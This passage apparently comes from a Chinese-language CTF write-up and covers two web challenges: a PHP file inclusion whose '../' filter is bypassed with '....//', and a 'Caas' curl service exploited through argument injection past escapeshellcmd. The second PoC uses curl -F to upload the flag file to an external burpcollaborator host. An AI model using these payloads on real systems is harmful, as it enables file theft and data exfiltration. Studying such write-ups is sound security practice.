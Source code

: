 ```php
<?php
$lang = ['en.php', 'qw.php'];
    include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```

PoC：`http://139.59.168.47:31097/?lang=....//....//flag`

### Caas

*index.php*文件中使用`Router()`类对象声明两个*router*规则：

1. 请求主页面*/*，响应*views/index.php*页面

2. 请求*/api/curl*，调用*execute()*方法

   ```php
   public function execute($router)
   {
       $url = $_POST['ip'];
   
       if (isset($url)) {
           $command = new CommandModel($url);
           return json_encode([ 'message' => $command->exec() ]);
       }
   }
   ```

   该方法中新增请求参数*ip*，并声明一个新的*CommandModel*类对象*command*。继续分析*CommandModel*类

   ```php
   <?php
   class CommandModel
   {
       public function __construct($url)
       {
           $this->command = "curl -sL " . escapeshellcmd($url);
       }
   
       public function exec()
       {
           exec($this->command, $output);
           return $output;
       }
   }
   ```

   将参数*ip*值传给`escapeshellcmd()`，并执行命令：`curl -sL xxx`

通过简要分析，我们可以自定义*ip*的值，那么将会在服务器上执行`curl`命令，因此存在命令注入漏洞。

PoC： `curl -X POST "http://138.68.132.86:30750/api/curl"  -d 'ip=http://o9yr9lg0jeo8emks05stgsig87ex2m.burpcollaborator.net -F "file=@../../flag"'`

## Forensics
